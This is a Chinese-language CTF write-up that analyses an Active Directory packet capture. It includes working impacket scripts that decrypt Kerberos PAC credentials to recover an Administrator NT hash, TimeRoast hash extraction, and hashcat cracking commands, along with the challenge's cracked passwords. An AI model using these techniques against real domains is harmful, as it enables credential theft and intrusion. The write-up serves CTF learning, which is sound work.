回到流量，继续分析更早的管理员 PKINIT 和 U2U 交互。

1. frame 779：Administrator 的 AS-REQ / PKINIT

2. frame 783：KDC 返回 AS-REP，也就是管理员的 TGT

3. frame 793：管理员发起 TGS-REQ / U2U

4. frame 795：KDC 返回 TGS-REP / U2U 结果

```bash
tshark -r suctf-ad.pcapng -Y "frame.number==779 || frame.number==783" -V
```

- 证书主题是 Kanna.seto

- SAN 里是 <administrator@wire.com>

- SID 是 ...-500

- 783 返回的是 Administrator 的 AS-REP/TGT

- 序列号550000000E5C907E6042C281C600000000000E

```bash
tshark -r suctf-ad.pcapng -Y "frame.number==793 || frame.number==795" -V
```

- frame 793

  - msg-type: krb-tgs-req
  - enc-tkt-in-skey: True
  - sname: Administrator
  - additional-tickets: 1 item
  - 这个 additional ticket 是 krbtgt/WIRE.COM

- frame 795

  - msg-type: krb-tgs-rep

  - cname: Administrator

  - ticket sname: Administrator

之前的key这个 32-byte hex 的真实作用，是解管理员 PKINIT 的 `AS-REP enc-part`。

把它作为 AES256 key，对 `frame 783` 的 `enc-part` 以 `usage 3` 解密后，得到的 TGT session key 恰好就是

```python
from impacket.krb5.crypto import Key, _enctype_table
from impacket.krb5.asn1 import EncASRepPart
from pyasn1.codec.der.decoder import decode
import subprocess, json

j = subprocess.check_output(
    ['tshark', '-r', 'suctf-ad.pcapng', '-Y', 'frame.number==783', '-T', 'json'],
    text=True, encoding='utf-8'
)
kerb = json.loads(j)[0]['_source']['layers']['kerberos']['kerberos.as_rep_element']
cipher_hex = kerb['kerberos.kDC_REP_enc_part_element']['kerberos.encryptedKDCREPData_cipher'].replace(':', '')

key_hex = open('cert\\key', 'r', encoding='ascii').read().strip()

plain = _enctype_table[18].decrypt(
    Key(18, bytes.fromhex(key_hex)),
    3,
    bytes.fromhex(cipher_hex)
)

obj = decode(plain, asn1Spec=EncASRepPart())[0]
print(bytes(obj['key']['keyvalue']).hex())
```

获得

```
e7d900a23fd982ccf1f4142a360291735e4af423e0e7255a53e6102afd27f352
```

这和 `wiredc.ccache` 中记录的值完全一致。

所以三份材料之间的关系已经闭环：

1. `administrator.pfx`

2. `key`

3. `wiredc.ccache`

下面的流程是

- 从 wiredc.ccache 取 TGT session key
- 用它解 frame 795 的 ticket enc-part
- 从 PAC 里找到 PAC_CREDENTIAL_INFO
- 再用 key 作为 AS-REP key，以 usage 16 解开
- 最后取出 NTLM_SUPPLEMENTAL_CREDENTIAL 里的 NtPassword

```python
from impacket.krb5.crypto import Key, _enctype_table
from impacket.krb5.asn1 import EncTicketPart, AD_IF_RELEVANT
from impacket.krb5.ccache import CCache
from impacket.krb5.pac import PACTYPE, PAC_INFO_BUFFER, PAC_CREDENTIAL_INFO, PAC_CREDENTIALS_INFO
from pyasn1.codec.der.decoder import decode
import subprocess, json

# 1. TGT session key from ccache
cc = CCache.loadFile("cert\\wiredc.ccache")
tgt_session_key = bytes(cc.credentials[0]["key"]["keyvalue"])

# 2. AS-REP key recovered from cert.zip
asrep_key = bytes.fromhex(open("cert\\key", "r", encoding="ascii").read().strip())

# 3. Get frame 795 ticket enc-part
j = subprocess.check_output(
    ["tshark", "-r", "suctf-ad.pcapng", "-Y", "frame.number==795", "-T", "json"],
    text=True, encoding="utf-8"
)
kerb = json.loads(j)[0]["_source"]["layers"]["kerberos"]["kerberos.tgs_rep_element"]
ticket_hex = kerb["kerberos.ticket_element"]["kerberos.ticket_enc_part_element"]["kerberos.encryptedTicketData_cipher"].replace(":", "")

# 4. Decrypt ticket enc-part with TGT session key, usage 2
plain = _enctype_table[18].decrypt(Key(18, tgt_session_key), 2, bytes.fromhex(ticket_hex))
ticket = decode(plain, asn1Spec=EncTicketPart())[0]

# 5. Extract PAC blob
ad_if_rel = decode(ticket["authorization-data"][0]["ad-data"].asOctets(), asn1Spec=AD_IF_RELEVANT())[0]
pac_blob = ad_if_rel[0]["ad-data"].asOctets()

# 6. Find PAC_CREDENTIAL_INFO buffer
pac = PACTYPE(pac_blob)
bufs = pac["Buffers"]
credinfo = None
for _ in range(pac["cBuffers"]):
    info = PAC_INFO_BUFFER(bufs[:16])
    if info["ulType"] == PAC_CREDENTIALS_INFO:
        raw = pac_blob[info["Offset"]:info["Offset"] + info["cbBufferSize"]]
        credinfo = PAC_CREDENTIAL_INFO(raw)
        break
    bufs = bufs[16:]

# 7. Decrypt PAC_CREDENTIAL_INFO SerializedData with AS-REP key, usage 16
dec = _enctype_table[int(credinfo["EncryptionType"])].decrypt(
    Key(int(credinfo["EncryptionType"]), asrep_key),
    16,
    credinfo["SerializedData"]
)

# 8. In this sample, the NTLM_SUPPLEMENTAL_CREDENTIAL starts at 0x44
#    Layout there is: Version(4) Flags(4) LM(16) NT(16)
nt_hash = dec[0x5c:0x6c].hex()
print("Administrator NT hash =", nt_hash)
#Administrator NT hash = bedcf78571904538b1919672e4521c4e

```

<https://hashes.com/zh/decrypt/hash>



```
Taylor@1989
```

## 恢复管理员会话并提取 flag.jpg

继续制作 keytab，恢复 Kerberos 流量。



最后一段管理员登录对应：

- `frame 2671`：`AS-REQ`
- `frame 2672`：`KRB5KDC_ERR_PREAUTH_REQUIRED`
- `frame 2680`：`AS-REQ`
- `frame 2681`：`AS-REP`
- `frame 2689`：`TGS-REQ`
- `frame 2691`：`TGS-REP`
- `frame 2696/2698/2700`：后续 AP 交互

```python
import subprocess, re, base64
from pathlib import Path

out = subprocess.check_output([
    'tshark',
    '-o', 'kerberos.decrypt:TRUE',
    '-o', 'kerberos.file:login.keytab',
    '-r', 'suctf-ad.pcapng',
    '-Y', 'tcp.stream==10 && dcerpc.cn_call_id==21 && dcerpc.pkt_type==2',
    '-T', 'fields',
    '-e', 'frame.number',
    '-e', 'dcerpc.decrypted_stub_data'
], text=True, encoding='utf-8', errors='ignore')

parts = []
for line in out.splitlines():
    if '\t' not in line:
        continue
    fr, hexdata = line.split('\t', 1)
    hexonly = re.sub(r'[^0-9A-Fa-f]', '', hexdata)
    if not hexonly:
        continue
    parts.append((int(fr), hexonly))

parts.sort()
full = b''.join(bytes.fromhex(h) for _, h in parts)

idx = full.find(b'<\x00?\x00x\x00m\x00l\x00')
if idx == -1:
    idx = full.find(b'<\x00T\x00a\x00s\x00k\x00')
if idx == -1:
    raise SystemExit('Task XML not found')

xml = full[idx:].decode('utf-16le', errors='ignore')
end = xml.find('</Task>')
if end == -1:
    raise SystemExit('</Task> not found')
xml = xml[:end + 7]

Path('stream10_retrieve.xml').write_text(xml, encoding='utf-8')

m = re.search(r'<Description>(.*?)</Description>', xml, re.S)
if not m:
    raise SystemExit('Description not found')

raw = base64.b64decode(m.group(1))
Path('flag.jpg').write_bytes(raw)

print('wrote stream10_retrieve.xml')
print('wrote flag.jpg', len(raw), raw[:4])

```


```bash
steghide info flag.jpg -p 'Taylor@1989'
"flag.jpg":
  format: jpeg
  capacity: 40.9 KB
  embedded file "flag.txt":
    size: 236.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

```bash
steghide extract -sf flag.jpg -p 'Taylor@1989'

QqWLN5rRRL3PaY57fcy8BCHVa/0td+R6LmenlhPZ1JHVgLeRKw9g53EJv3/fx+92i7ZQkQCciC3xGccbf8NAT8Z9LJdc6mtfIIQcpe0hh2dNSHVUDXE/esTeJ3zIUGAh09N6SQBCQqIa4IX529QjTrwMphzfwIN8mgAjgx6jJ3Um3bSnxkIO9hJJL5+Xxjs/0LRx7QwELhDzuA9+m7vaFwKzKclwT+MnsrXA942K3wQ=
```

## TimeRoast 与最终解密

最后一个知识点是

<https://www.thehacker.recipes/ad/movement/kerberos/timeroast>

也是卡壳的地方

利用的是 **Microsoft NTP 扩展 (MS-SNTP)**，域内机器需要和 **Domain Controller 同步时间**

Windows 在 NTP 上加了一个认证扩展，DC 会用 **机器账户 NT hash** 计算 MAC

从 pcap 里提取 TimeRoast 哈希

其中服务端响应是 775 和 789，这两帧就是 timeroast 材料。

```python
import subprocess, struct

for fr in [775, 789]:
    out = subprocess.check_output(
        ['tshark', '-r', 'suctf-ad.pcapng', '-Y', f'frame.number=={fr}', '-T', 'fields', '-e', 'udp.payload'],
        text=True
    ).strip().replace(':', '')
    raw = bytes.fromhex(out)

    salt = raw[:48]
    rid  = struct.unpack('<I', raw[-20:-16])[0]
    md5h = raw[-16:]

    print(f'{rid}:$sntp-ms${md5h.hex()}${salt.hex()}')

```

```bash
$sntp-ms$cb1877ec7aeeffb785f5689e483f0a3b$1c0111e900000000000a4c034c4f434ced54e820c41a9b8ce1b8428bffbfcd0aed554c56e832914ced554c56e833a7cd
$sntp-ms$8e8bab42e2cac7e5ef5d252f1eb63a5b$1c0111e900000000000a4c274c4f434ced54e820c5fea811e1b8428bffbfcd0aed554c868a16e29aed554c868a176f88
```

爆破一下

```bash
\hashcat.exe -m 31300 --username .\timeroast_hashes.txt rockyou.txt
$sntp-ms$8e8bab42e2cac7e5ef5d252f1eb63a5b$1c0111e900000000000a4c274c4f434ced54e820c5fea811e1b8428bffbfcd0aed554c868a16e29aed554c868a176f88:*joker*123
```

获得的明文

```text
*joker*123
```

```python
from pathlib import Path
import base64, hashlib
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

raw = base64.b64decode(Path("flag.txt").read_text().strip())
key = hashlib.sha256(b"*joker*123").digest()
iv = raw[:16]
ct = raw[16:]
pt = unpad(AES.new(key, AES.MODE_CBC, iv).decrypt(ct), 16)
print(pt.decode())
```

获得最后的flag

```text
SUCTF{7h47_71m3_1_Cr4ck3d_3v3ry_3ncryp710n_1n_7h3_C7F_45_4_G3n1u5_H4ck3r_0nly_70_F1nd_7h3_Ul71m473_H1dd3n_Fl4g_15_7h3_P33rl355_B34u7y_K4nn0_5370!!!!}
```


